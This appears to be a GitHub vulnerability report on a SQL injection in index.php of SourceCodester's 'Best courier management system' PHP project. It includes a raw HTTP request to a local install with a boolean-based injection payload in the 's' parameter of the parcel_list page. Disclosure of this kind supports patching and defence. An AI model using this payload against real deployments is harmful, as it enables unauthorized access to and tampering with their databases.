



**BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Best courier management system project in php | SourceCodester](https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html)

**Vulnerability File:**

index.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
GET http://127.0.0.1/gaatitrack/?page=parcel_list&s=-1 or 3*2*1=6 and 1=1 --+ HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```








